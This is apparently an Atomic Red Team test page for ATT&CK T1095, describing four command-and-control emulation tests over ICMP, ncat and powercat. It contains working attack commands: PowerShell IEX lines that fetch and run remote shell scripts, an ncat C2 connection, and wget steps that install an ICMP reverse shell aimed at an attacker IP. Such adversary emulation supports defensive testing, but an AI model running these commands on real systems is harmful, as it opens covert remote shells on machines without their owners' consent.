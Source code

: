 # T1095 - Non-Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1095)
<blockquote>

Adversaries may use an OSI non-application layer protocol for communication between host and C2 server or among infected hosts within a network. The list of possible protocols is extensive.(Citation: Wikipedia OSI) Specific examples include use of network layer protocols, such as the Internet Control Message Protocol (ICMP), transport layer protocols, such as the User Datagram Protocol (UDP), session layer protocols, such as Socket Secure (SOCKS), as well as redirected/tunneled protocols, such as Serial over LAN (SOL).

ICMP communication between hosts is one example.(Citation: Cisco Synful Knock Evolution) Because ICMP is part of the Internet Protocol Suite, it is required to be implemented by all IP-compatible hosts.(Citation: Microsoft ICMP) However, it is not as commonly monitored as other Internet Protocols such as TCP or UDP and may be used by adversaries to hide communications.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - ICMP C2](#atomic-test-1---icmp-c2)

- [Atomic Test #2 - Netcat C2](#atomic-test-2---netcat-c2)

- [Atomic Test #3 - Powercat C2](#atomic-test-3---powercat-c2)

- [Atomic Test #4 - Linux ICMP Reverse Shell using icmp-cnc](#atomic-test-4---linux-icmp-reverse-shell-using-icmp-cnc)


<br/>

## Atomic Test #1 - ICMP C2
This will attempt to  start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows


**auto_generated_guid:** 0268e63c-e244-42db-bef7-72a9e59fc1fc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | The IP address of the listening server | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```






<br/>
<br/>

## Atomic Test #2 - Netcat C2
Start C2 Session Using Ncat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


**auto_generated_guid:** bcf0d1c1-3f6a-4847-b1c9-7ed4ea321f37





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_port | The port for the C2 connection | integer | 80|
| ncat_exe | The location of ncat.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1095&#92;nmap-7.80&#92;ncat.exe|
| ncat_path | The folder path of ncat.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1095|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c "#{ncat_exe}" #{server_ip} #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: ncat.exe must be available at specified location (#{ncat_exe})
##### Check Prereq Commands:
```powershell
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory -Force -Path "#{ncat_path}" | Out-Null
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
  Expand-Archive $zippath $parentpath -Force
  $unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```




<br/>
<br/>

## Atomic Test #3 - Powercat C2
Start C2 Session Using Powercat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


**auto_generated_guid:** 3e0e0e7f-6aa2-4a61-b61d-526c2cc9330e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```






<br/>
<br/>

## Atomic Test #4 - Linux ICMP Reverse Shell using icmp-cnc
ICMP C2 (Command and Control) utilizes the Internet Control Message Protocol (ICMP), traditionally used for network diagnostics, as a covert communication channel for attackers. By using ICMP, adversaries can send commands, exfiltrate data, or maintain access to compromised systems without triggering network detection systems.
This method allows attackers to communicate and control compromised devices while remaining undetected.

For more details, check this blog: [ICMP Reverse Shell Blog](https://cryptsus.com/blog/icmp-reverse-shell.html)

**Important Notes:**
- Use `[icmp-cnc]` for the C2 server (Attacker) and `[icmpdoor]` for the C2 client (Victim).
- Binaries work on Ubuntu 22.04.5 LTS; for CentOS Stream or other, use the Python file from the GitHub link [https://github.com/krabelize/icmpdoor].
- Root access is required.

**Supported Platforms:** Linux


**auto_generated_guid:** 8e139e1f-1f3a-4be7-901d-afae9738c064





#### Run it with these steps! 
1. Run the following command on both the attacker and victim machines to download the required binaries.

    mkdir -p /tmp/icmpdoor && wget -P /tmp/icmpdoor https://github.com/krabelize/icmpdoor/raw/2398f7e0b8548d8ef2891089e4199ee630e84ef6/binaries/x86_64-linux/icmp-cnc https://github.com/krabelize/icmpdoor/raw/2398f7e0b8548d8ef2891089e4199ee630e84ef6/binaries/x86_64-linux/icmpdoor && chmod +x /tmp/icmpdoor/icmp-cnc /tmp/icmpdoor/icmpdoor && echo 'export PATH=$PATH:/tmp/icmpdoor' >> ~/.bashrc && source ~/.bashrc

2. Start the C2 server on the attacker system to listen for incoming connections.

    icmp-cnc --interface <Network Interface> --destination_ip <VICTIM-IP>

3. Run the client on the victim machine.

    icmpdoor --interface <Network Interface> --destination_ip <ATTACKER-IP>
  
4. Cleanup Command: Remove the icmpdoor directory.

    rm -rf /tmp/icmpdoor







<br/>
